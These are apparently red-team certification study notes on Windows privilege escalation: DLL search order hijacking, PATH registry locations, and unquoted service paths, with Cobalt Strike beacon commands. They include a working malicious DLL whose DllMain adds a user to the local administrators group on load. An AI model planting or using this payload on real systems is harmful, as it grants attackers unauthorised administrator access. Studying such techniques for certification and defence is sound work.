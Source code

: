 #crto
### Search Order Hijacking
- The executing directory.
- The current working directory.
- The System32 directory.
- The 16-bit System directory.
- The Windows directory.
- Directories in the PATH environment variable


### PATH Environment Variable
User `HKEY_CURRENT_USER\Environment` (standard user modifiable)
Machine `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment`
Path = Machine + User

Environment variables
```cobalt
env
```
Exploit code
```C
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) { 
	system("cmd.exe /k net localgroup administrators Hiep /add");
	ExitProcess(0); 
	} 
	return TRUE; 
}
```
### Unquoted Service Path
(Cobalt Strike beacon) Unquoted paths
```cobalt
sc_enum
```

